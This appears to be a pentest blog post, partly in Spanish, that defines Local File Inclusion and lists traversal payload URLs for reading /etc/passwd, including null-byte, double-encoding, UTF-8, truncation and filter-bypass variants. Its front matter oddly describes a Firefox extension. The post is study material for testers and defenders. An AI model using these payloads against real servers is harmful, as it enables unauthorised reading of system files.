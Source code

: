 ```yaml
---
title: "Local File Inclusion"
layout: post
date: 2021-09-22 22:26
image: /assets/images/MullvadVPN.jpeg
headerImage: false
tag:
- Pentest
- HackTool
- Privacy
- Extension
- Cybersecurity
- firefox
category: blog
author: Carlos Montero
description: Extension Firefox
---
```

# Definición
> Local File Inclusion, o traducido al castellano inclusion local de archivos, se trata de la inclusion de ficheros locales, es decir, ficheros que se encuentran en el mismo servidor de la web con este tipo de fallo, a diferencia de Remote File Inclusion que incluye ficheros alojados en otros servidores. Es consecuencia de un fallo en la programacion de la página, mal filtrado de los que se incluye al usar funciones en PHP para incluir archivos.

* * *

## Basic LFI

In the following examples we include the /etc/passwd file, check the Directory & Path Traversal chapter for more interesting files.

```
http://example.com/index.php?page=../../../etc/passwd
```

* * *

## Null byte (%00)

> In versions of PHP below 5.3.4 we can terminate with null byte.

```
http://example.com/index.php?page=../../../etc/passwd%00
```

* * *

## Double encoding
```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
***
## UTF-8 encoding
```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```
***
## Path and dot truncation
> En la mayoría de las instalaciones de PHP, un nombre de archivo de más de 4096 bytes se cortará, por lo que cualquier exceso de caracteres se desechará. 
```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```
***
## Filter bypass tricks
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```
